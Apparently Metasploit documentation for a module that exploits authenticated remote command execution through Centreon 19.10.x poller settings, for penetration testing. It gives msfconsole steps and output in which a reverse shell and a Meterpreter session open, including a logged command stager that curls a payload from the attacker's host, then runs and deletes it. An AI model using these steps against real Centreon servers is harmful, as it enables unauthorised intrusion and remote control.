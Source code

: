 ## Vulnerable Application

Centreon is an open source IT monitoring solution by Centreon, a leading Paris-based software company.

An authenticated user with sufficient administrative rights to manage pollers can use this functionality to
execute arbitrary commands remotely. Usually, the miscellaneous commands are used by the additional modules
(to perform certain actions), by the scheduler for data processing, etc.

This module uses this functionality to obtain a remote shell on the target.

Tested on:

 * [Centreon 19.10.8](http://vm.download.centreon.com/centreon-vbox-vm-19_10-3.el7.ovf.zip)
 * [Centreon 19.10.5](http://vm.download.centreon.com/centreon-vbox-vm-19_10-1.el7.ovf.zip)

## Verification Steps

 1. Install the module as usual
 2. Start msfconsole
 3. Do: `use exploit/linux/http/centreon_pollers_auth_rce`
 4. Do: `set RHOSTS [IP]`
 5. Do: `set LHOST [IP]`
 6. Do: `set USERNAME [USERNAME]`
 7. Do: `sat PASSWORD [PASSWORD]`
 8. Do: `set VERBOSE true`
 9. Do: `run`

## Scenarios

```
msf5 > use exploit/linux/http/centreon_pollers_auth_rce
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set rhosts [IP]
rhosts => [IP]
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set username admin
username => admin
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set password centreon
password => centreon
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set lhost [IP]
lhost => [IP]
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set verbose true
verbose => true
msf5 exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Send authentication request.
[*] Successful authenticated.
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Command shell session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:59624) at 2020-02-03 17:41:13 +0400

id
uid=48(apache) gid=48(apache) groups=48(apache),993(centreon-engine),994(centreon-broker),998(centreon),999(nagios)

  --or--

msf5 exploit(linux/http/centreon_pollers_auth_rce) > set target 1
target => 1
msf5 exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Send authentication request.
[*] Successful authenticated.
[*] Using URL: http://0.0.0.0:8080/fNqJS82wB
[*] Local IP: http://XXX.XXX.XXX.XXX:8080/fNqJS82wB
[*] Generated command stager: ["curl -so /tmp/MBoYQsJv http://XXX.XXX.XXX.XXX:8080/fNqJS82wB;chmod +x /tmp/MBoYQsJv;/tmp/MBoYQsJv;rm -f /tmp/MBoYQsJv"]
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Client XXX.XXX.XXX.XXX (curl/7.29.0) requested /fNqJS82wB
[*] Sending payload to XXX.XXX.XXX.XXX (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 2 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:60536) at 2020-02-03 17:44:47 +0400
[*] Server stopped.

meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter >
```

## Targets

```
Id  Name
--  ----
0   Reverse shell (In-Memory)
1   Meterpreter (Dropper)
```

## References

1. <https://www.exploit-db.com/exploits/47969>
2. <https://www.exploit-db.com/exploits/47977>
3. <https://www.exploit-db.com/exploits/47978>
